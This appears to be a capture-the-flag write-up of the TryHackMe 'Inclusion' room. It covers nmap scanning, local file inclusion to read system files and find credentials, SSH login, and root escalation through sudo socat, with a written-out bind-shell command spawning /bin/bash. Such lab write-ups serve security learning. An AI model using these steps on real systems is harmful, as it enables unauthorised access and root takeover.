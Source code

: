 # Inclusion, by N3PH1L4X
This was a pretty fun room, it consists on basic local file inclusion and a little bit of post-exploiting enumeration. As its description states: it's for beginners, so this is a good room to learn and practice LFI. Let's start.
> Room link: https://tryhackme.com/room/inclusion

## Scanning
First of all we run a common nmap port scan:
~~~
nmap 10.10.115.231 -p- -n --min-rate=1000 --open -vvv
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-08 20:46 -04
Initiating Ping Scan at 20:46
Scanning 10.10.115.231 [2 ports]
Completed Ping Scan at 20:46, 0.36s elapsed (1 total hosts)
Initiating Connect Scan at 20:46
Scanning 10.10.115.231 [65535 ports]
Discovered open port 80/tcp on 10.10.115.231
Discovered open port 22/tcp on 10.10.115.231
Connect Scan Timing: About 27.62% done; ETC: 20:48 (0:01:21 remaining)
Connect Scan Timing: About 55.55% done; ETC: 20:48 (0:00:49 remaining)
Completed Connect Scan at 20:48, 119.38s elapsed (65535 total ports)
Nmap scan report for 10.10.115.231
Host is up, received syn-ack (0.68s latency).
Scanned at 2021-08-08 20:46:47 -04 for 120s
Not shown: 40635 filtered ports, 24898 closed ports
Reason: 40635 no-responses and 24898 conn-refused
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 119.79 seconds
~~~

Here we can see there are two open ports, let's scan those ports:
~~~
nmap 10.10.115.231 -p22,80 -n -sV -sC -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-08 21:03 -04
Nmap scan report for 10.10.115.231
Host is up (0.36s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.31 seconds
~~~

There are two running services on those ports, let's check the web page on port 80:
![image](https://user-images.githubusercontent.com/71483185/128653032-7caa3e8e-b8fd-4209-aa62-34be834b88ba.png)

It's a blog with a few entries explaining some attack vectors, let's have a look on the LFI entry:
![image](https://user-images.githubusercontent.com/71483185/128653078-4adf894d-a7e9-48ea-a405-858b9e4c2ab8.png)

## Exploitation
Well that looks strange... The url might be useful. Let's try checking if we can view files outside the web directory:
![image](https://user-images.githubusercontent.com/71483185/128656392-1773d004-92f0-4619-8ec7-aaa52f299bfc.png)
We certainly can, there is an user listed there. We can know that by searching user IDs (UID) from 1000 and over.

Also there is what seems to be an user/password combination. What if we try that on the SSH port?
![image](https://user-images.githubusercontent.com/71483185/128653830-a0f74821-522e-4092-80f2-be5c3e2b846b.png)<br>
There it is. We have broke in.

And here is our user flag file.<br>
![image](https://user-images.githubusercontent.com/71483185/128654253-15acb8cb-7f88-4482-b1b9-02131c1dfb6d.png)

## Privilege escalation
Now all we have to do is escalate privileges. Are we sudoers?
![image](https://user-images.githubusercontent.com/71483185/128654678-d2752cb2-f411-49c4-83f0-8d229ba2b90c.png)<br>
Yes! And we can use socat as superuser without providing a password.

Let's have a look on what socat is:<br>
![image](https://user-images.githubusercontent.com/71483185/128654840-7e5b549c-1a07-4602-afa7-469ada3918b3.png)<br>
> Source: https://www.redhat.com/sysadmin/getting-started-socat

It seems like we can establish a TCP connection using this tool. Let's try this on our victim's machine:
~~~
sudo socat TCP4-LISTEN:4444,reuseaddr EXEC:"/bin/bash"
~~~
This command is going to run socat as superuser, is going to setup a TCP listener on port 4444 and start /bin/bash (the victim's shell) when it catches a connection.<br>
![image](https://user-images.githubusercontent.com/71483185/128655592-a0f1d434-3a25-43af-a112-f04ea7b7e13f.png)<br>
Listener is awaiting for connection.<br>

Now we are going to run this command on our attacker's machine:<br>
~~~
socat – TCP4:10.10.115.231:4444
~~~
It's gonna try establish a TCP connection to the IP provided, in my case it's 10.10.115.231 on port 4444.
![image](https://user-images.githubusercontent.com/71483185/128655879-ab879bbd-32c9-4bc1-bb03-bdcd052bb4fa.png)<br>
And there it is!

All we need to do now is find our root flag file!<br>
![image](https://user-images.githubusercontent.com/71483185/128655960-c06830f1-a05e-4e24-aa75-3bcdb6a7999b.png)

## Finishing off
That's it! As I said before, this is a pretty easy but fun room, very useful for learning and practicing LFI.
Thank you for reading this write up!
